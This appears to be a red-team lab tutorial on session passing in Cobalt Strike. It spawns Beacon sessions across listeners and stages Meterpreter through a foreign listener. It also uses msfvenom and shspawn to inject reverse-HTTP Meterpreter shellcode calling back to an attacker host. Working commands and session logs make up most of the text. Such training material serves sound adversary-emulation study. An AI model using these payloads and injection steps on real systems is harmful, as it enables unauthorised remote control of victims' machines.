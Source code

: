 As we know in Cobalt Strike (and many other C2 frameworks), payloads are tied very closely to listeners.  Session passing is a process where you spawn a new C2 session from one payload/listener type to another.  For example, we could have a long-haul Beacon checking in over DNS, which we can use to spawn a different short-haul Beacon over HTTP.  It's also possible to pass sessions between completely different C2 frameworks, such as spawning a Meterpreter session from Beacon.

This is useful for several reasons, including:

- Leverage a capability within a framework that Cobalt Strike doesn't have.
- Use different C2 frameworks as backup access in the event the current access is lost.
- To emulate specific TTPs.

# Beacon Passing

The spawn command will spawn an x86 or x64 process and inject shellcode for the specified listener into it.
In this example, I have a DNS Beacon checking in from bfarmer every 1 minute. Instead of operating through this Beacon, I want to leave it open as a lifeline on a slow check-in.  In which case, I can spawn a new HTTP session and work from there instead.

    beacon> spawn x64 http

# Foreign Listener (msf)

The foreign listener in Cobalt Strike is designed to stage Meterpreter HTTP/HTTPS implants from Beacon, although it's technically compatible with any implant that supports the MSF staging protocol.  Start msfconsole and create a new reverse HTTP Meterpreter listener.

    attacker@ubuntu ~> sudo msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
    msf6 exploit(multi/handler) > set LHOST ens5
    msf6 exploit(multi/handler) > set LPORT 8080

You must use the "staged" reverse_http payload type and ensure you use a port that Cobalt Strike is not already listening on.

    msf6 exploit(multi/handler) > run
    [*] Started HTTP reverse handler on http://10.10.5.50:8080

Go to the listener management in Cobalt Strike and create a new Foreign HTTP listener.  The stager host and port must match your MSF multi handler.

![foreign-http](https://github.com/user-attachments/assets/04d11ae1-de63-4f9d-8018-c37fdb3b4f57)

This listener will now be available within all the relevant Beacon commands such as spawn, jump and elevate.  For instance, spawn msf will spawn a process and inject Meterpreter shellcode into it, thus giving us a Meterpreter session.

    [*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: t6qekc2g) Staging x86 payload (176732 bytes) ...
    [*] Meterpreter session 1 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 11:29:54 +0000
    
    meterpreter > sysinfo
    Computer        : WKSTN-2
    OS              : Windows 10 (10.0 Build 19044).
    Architecture    : x64
    System Language : en_US
    Domain          : DEV
    Logged On Users : 11
    Meterpreter     : x86/windows

- Two downsides to the foreign listener is that it only supports x86 staged payloads (no x64 or stageless).


# Spawn and Inject



Cobalt Strike has two further generic injection commands that can be utilised for the purpose of session passing: shinject and shspawn.  Both allow you to inject an arbitrary shellcode blob - shinject can inject into an existing process, and shspawn will spawn a new process.

First, change the multi handler to use a stageless x64 Meterpreter payload.

    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
    msf6 exploit(multi/handler) > exploit
    
    [*] Started HTTP reverse handler on http://10.10.5.50:8080

Next, generate the associated payload using msfvenom inside WSL, and save the output to your Payloads directory.

    ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 201820 bytes
    Saved as: /mnt/c/Payloads/msf_http_x64.bin

Finally, use shspawn to spawn a process and inject it.

    beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
    
    [*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: 64tqy4zf) Redirecting stageless connection from /jeqN5SIPwEzAGcEbowwz7Q-hb8QsIP with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36'
    [*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: 64tqy4zf) Attaching orphaned/stageless session...
    [*] Meterpreter session 2 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 13:04:53 +0000















